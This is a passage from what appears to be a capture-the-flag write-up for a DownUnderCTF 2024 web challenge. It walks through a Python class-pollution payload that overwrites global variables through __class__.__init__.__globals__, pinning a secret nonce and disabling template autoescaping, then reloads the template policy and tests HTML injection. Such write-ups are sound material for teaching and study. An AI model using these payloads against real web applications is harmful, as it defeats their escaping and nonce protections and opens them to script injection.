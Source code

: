 Also, we need to ensure the global variable `TEMPLATES_ESCAPE_ALL` has been set to `False` as it been used in the `jEnv()` function

```py
self.env = Environment(loader=PackageLoader("app", "templates"), autoescape=TEMPLATES_ESCAPE_ALL)
```

With this in knowledge, the following payload can be use to get a valid nonce.

```cs
{
"__class__":{
    "__init__":{
        "__globals__":{
            "SECRET_NONCE":"onlyusknow",
            "RANDOM_COUNT":0,
            "TEMPLATES_ESCAPE_ALL":false
            }
        }
    }
}
```

To check if everything is working properly, we could refresh the `/` endpoint a few times and notice that the `nonce` value does not change at all. Nice!

![alt text](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/15_downunderctf_2024/image-25.png)


Changing `TEMPLATES_ESCAPE_ALL` alone does not yet affect the environment. We need to hit `/admin/update-accepted-templates` with the following payload to properly update the environment.

```cs
{"policy":"strict"}
```

Now, by adding a new blog with the HTML payload `<h1>a</h1>`, we can verify that the injection works properly!
